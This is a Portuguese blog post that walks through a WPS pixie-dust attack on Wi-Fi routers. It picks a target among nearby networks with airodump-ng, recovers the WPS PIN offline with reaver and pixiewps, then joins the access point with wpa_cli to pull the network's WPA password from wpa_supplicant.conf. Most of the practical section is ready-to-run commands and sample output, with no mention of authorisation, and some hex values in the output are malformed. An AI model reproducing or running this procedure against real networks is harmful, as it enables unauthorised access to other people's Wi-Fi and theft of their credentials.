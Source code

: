 ```yaml
---
layout: post
title: wps pixie-dust attack
date: 2022-07-18 
description: recuperando psk ...
categories: wifi
---
```



## pegando psk com pixie-dust attack 


O pixie dust attack consiste em realizar a quebra do WPS de maneira offline.O método offline 
envolve tentar apenas um PIN aleatório e coletar algumas informações durante o processo. Esses 
dados podem ser usados posteriormente para tentar o ataque pixie-dust.
A vulnerabilidade está na mensagem M3: no corpo da mensagem é utilizado
duas chaves AES de 128 bits randômicas (E-S1 e E-S2) para encriptação da
primeira e da segunda metade do PIN, respectivamente. Se as duas chaves
forem descobertas, é possível recuperar o número PIN com um ataque offline
em menos de um segundo, em vez de “chutar” o número PIN no roteador, processo que pode levar 
de 8 a 12 horas (mais informações sobre o brute-force offline aqui http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf)


## Parte pratica
##### Com a interface em modo monitor você pode "sniffar" as redes em volta para identificar um alvo em potêncial com o airodump-ng adicionando a flag --wps dessa forma:
```
$ sudo airodump-ng --wps <interface>
```
> Repare na coluna WPS 

```
 CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ]
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER  WPS  AUTH  ESSID
                                                                                                             
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN          2.0           NETGEAR                         
 00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP     1.0           bigbear 
 00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP    2.0    PSK    teddy                             
                                                                                                            
 BSSID              STATION            PWR   Rate   Lost  Packets  Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy

```

##### Os APs com o WPS ativado apareceram nessa coluna com a versão do wps que o AP possui. Pode acontecer de alguns APs ficarem com um espaço vazio nessa coluna, isso é porque o wps está desativado.

##### Depois de ter identificado seu alvo, a ferramenta utilizada para fazer o ataque ao WPS será a Reaver (link no final da pg) com o seguinte comando:
  
```
sudo reaver -i <interface> -c <channel> -b <mac do ap> -vv -K 1
(precisa da flag -vv)
```
##### O resultado pode variar um pouco porque depende muito do roteador que está sendo atacado. Essa falha é relativa ao firmware do roteador, não sendo todos os roteadores vulneráveis. Você pode ver alguns exemplos de saida aqui ==> (https://forums.kali.org/showthread.php?25123-Reaver-modfication-for-Pixie-Dust-Attack) ou pesquisar por conta própria e ver vários resultados diferentes que as pessoas conseguem por ai ... mas saída que deu certo pra mim foi semelhante a essa:

```
$ sudo reaver -i <interface> -c <channel> -b 01:D0:30:4A:49:45 -vv -K 1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching wlan0 to channel 2
[+] Waiting for beacon from 01:D0:30:4A:49:45
[+] Received beacon from 01:D0:30:4A:49:45
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 01:D0:30:4A:49:45 (ESSID: "nome qualquer")
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
executing pixiewps -e 
313ff74331338ed2d66cc580c997ee805df43626d3dfda23328688e110e5676b7aa9d36640956c1d5b712835a0b07a7ec2ac2363e44336232cf5c11517096bad3c95bc2db3f537c41cf0a80036e
5b680e3e1e130a9303c14f77abca481e4911f590148387c6dc2839e2820a028f9d9c0767d25216c01260c011259cbd30c846ada8da47e5dc9d3dbe99953d9f8ef547d42b3152f581e790aae608c
6b112aac298cb121a60b6ec8849f23497234685b05b53a632526765dbf12642ed0ee8213fb -s c6987c052c458512a2972cfacc923e4c61c9502723676b9493d1b783062ecg16 -z 
72e3a7f04f5eb1cdd4602fb15443099f82d56a02ccad15774ea873c84b4b1b0b -a 3c63e889ae1d26a4441e2f9fbf7b673ff4aee85889383d88dc3707253d155d6b -n 
db396a9e4066be20697a0e236d3aaef7 -r 
29722c42863986dd84a965db99fca766e49c04e58c70f3cc0526b1d6efa0798d3a8023d533f87ea70g6551e50274d40e6c19dd6b3842b496e8c5fc2efc62dd67dc0ad5276aa21321fb68a70bbe6
9d6d6f27e5fb61ff29411a35c9d8e7084d8920cba3656a628ed5e7559ce53804ed85ea840221a73e8fb277c1ff86be187fb4008608c1f086637b045078cfa4c5dfe797d10d866322331866a6cf8
1651af877ad5f074be7c94a5db570d9c467dbf6aa048b48e16bfe98a265657a764b4d09fa7a

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x2e6f2d71
 [*] Seed ES1: 0x7f3d488f
 [*] Seed ES2: 0x4104ca5d
 [*] PSK1:     e7868366f236b343dc0777209b87a214
 [*] PSK2:     95a24c483176fadddc4469a305e893b2
 [*] ES1:      3dd1a7d64b65cbe1bd80ab4359css07e
 [*] ES2:      5502dec86e7ae960a247f6b8aa9c513d
 [+] WPS pin:  18630248   <==== PIN AQUI

 [*] Time taken: 0 s 294 ms
```
(você pode executar o comando "pixiewps" sugerido pela própria ferramenta, que trará o mesmo resultado do pin recuperado)

##### Dependendo do resultado do ataque, o reaver consegue recuperar apenas o PIN do WPS como mostrado acima. Nos meus testes foi esse resultado que consegui. Então a idéia é essa: recuperar o PIN com o ataque offline pixie-dust, depois se conectar ao AP com o pin recuperado para então pegar o psk. 

#### Para se conectar ao AP pelo WPS com o PIN faça o seguindo:

1. ***Crie o arquivo wpa_supplicant.conf em /etc/ e nesse arquivo vai as seguintes linhas***:

> ctrl_interface=/var/run/wpa_supplicant
>  
> ctrl_interface_group=0
>  
> update_config=1
  

2. ***Inicie o wpa_supplicant, com o arquivo de configuração /etc/wpa_supplicant.conf***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
```

  
3. ***Em outro terminal inicie o wpa_cli para realizar a conexão ao ponto de acesso por meio do número PIN***:
```  
$ wpa_cli wps_reg 74:EA:3A:E1:E8:66 02283470
                     <mac do ap>    <pin wps>
```
  
  
4. ***O wpa_supplicant fará a conexão ao ponto de acesso. No terminal em que o wpa_supplicant foi iniciado
é retornado uma mensagem de que a conexão foi bem-sucedida***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
ioctl[SIOCSIWENCODEEXT]: Invalid argument
ioctl[SIOCSIWENCODEEXT]: Invalid argument
wlan0: Failed to initiate AP scan
wlan0: Trying to associate with 74:ea:3a:e1:e8:66 (SSID='TP-LINK_E1E866' freq=2462 MHz)
wlan0: Associated with 74:ea:3a:e1:e8:66
wlan0: WPA: Key negotiation completed with 74:ea:3a:e1:e8:66 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 74:ea:3a:e1:e8:66
completed (auth) [id=1 id_str=]
```
  
  
5. ***Visualize o conteúdo do arquivo /etc/wpa_supplicant.conf com a senha
wireless da rede***:
```
$ cat /etc/wpa_supplicant.conf
network={
ssid="TP-LINK_E1E866"
bssid=74:ea:3a:e1:e8:66
psk="senha123"
proto=RSN
key_mgmt=WPA-PSK
pairwise=CCMP
auth_alg=OPEN
}
```

referencia:
- https://novatec.com.br/livros/pentest-redes-sem-fio/
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access#WPS_PIN_recovery
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup
- https://github.com/wiire-a/pixiewps
- https://github.com/t6x/reaver-wps-fork-t6x
- https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)

